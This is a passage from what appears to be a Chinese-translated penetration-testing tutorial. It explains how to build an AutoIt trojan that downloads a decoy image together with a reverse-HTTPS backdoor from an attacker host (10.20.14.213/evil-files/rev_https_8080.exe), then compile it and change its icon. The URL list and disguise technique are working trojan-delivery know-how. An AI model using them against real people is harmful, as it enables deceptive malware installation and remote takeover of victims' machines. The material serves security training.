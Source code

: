 ![](img/9e134fce-89db-4165-905d-0032b0604e21.png)

请注意，当我们这样做时，我们会通过地址栏上的直接 URL 获取到图片本身，因此我们可以看到 URL 的结尾是 `.jpg`。当我们访问图片时，周围不会有广告；我们只能看到图片本身。我们脚本中包含的所有文件都需要有一个直接的 URL。将 URL 粘贴到脚本中，如下所示：

```
Local $urls = "https://res.cloudinary.com/goodsearch/image/upload/v1508929095/hi_resolution_merchant_logos/packt-publishing_coupons.png"
```

接下来我们想要下载并执行的文件是我们的后门。我们将插入一个逗号，然后输入后门的直接 URL。对于我们的示例，该 URL 存储在`http://10.20.14.213/evil-files/rev_https_8080.exe`。如果我们直接粘贴该 URL，就可以访问该文件并直接下载。这一点非常重要；如果不使用直接的 URL，脚本将无法正常工作。正如我们所看到的，这个脚本非常简单，唯一需要做的就是插入第一个文件的 URL，然后再插入一个逗号，这一点很重要。我们必须用逗号分隔 URL，然后再输入第二个文件的 URL。如前所述，如果我们想下载更多文件，或者下载更多后门或恶意文件，我们只需要再插入一个逗号，并输入下一个 URL。`Local $urls`参数现在应该包含以下参数：

```
Local $urls = "https://res.cloudinary.com/goodsearch/image/upload/v1508929095/hi_resolution_merchant_logos/packt-publishing_coupons.png, http://10.20.14.213/evil-files/rev_https_8080.exe"
```

现在，我们所需要做的就是将脚本编译成可执行文件，接下来我们将在下一节中学习如何做到这一点。

# 更改图标并编译有效载荷

在上一节中，我们编写了我们的脚本。在这一节中，我们将学习如何将其编译为可执行文件，并且如何更改它的图标。该脚本是用一种名为 AutoIt 的脚本语言编写的。AutoIt 并没有预安装在 Kali 中，但在我们安装 Veil 时，它会被安装上。由于我们使用的是 Veil 后门，没有安装 Veil 我们是无法到达这一步的。因此，我们不会讲解如何安装 AutoIt；我们可以直接下载并使用 Wine 运行安装程序。所以，AutoIt 应该已经为我们安装好了，接下来我们只需要将`.txt`文件重命名，并将扩展名从`.txt`改为`.au3`。然后，在 Kali 中搜索`compile`，我们就可以看到一个可以编译 AutoIt 脚本的应用程序，如下图所示：
